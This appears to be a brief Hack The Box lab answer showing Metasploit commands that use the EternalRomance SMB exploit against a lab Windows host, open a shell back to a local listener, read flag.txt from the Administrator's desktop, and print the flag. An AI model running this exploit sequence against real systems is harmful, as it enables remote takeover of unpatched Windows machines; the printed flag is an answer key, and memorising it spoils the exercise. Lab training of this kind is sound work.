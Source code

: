 # Modules

### Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.

```bash
msfconsole
search eternalromance
use 0
set rhosts 10.129.29.212
set lhost 10.10.14.179
set lport 6969
run
shell
type C:\Users\Administrator\Desktop\flag.txt
HTB{MSF-W1nD0w5-3xPL01t4t10n}
```
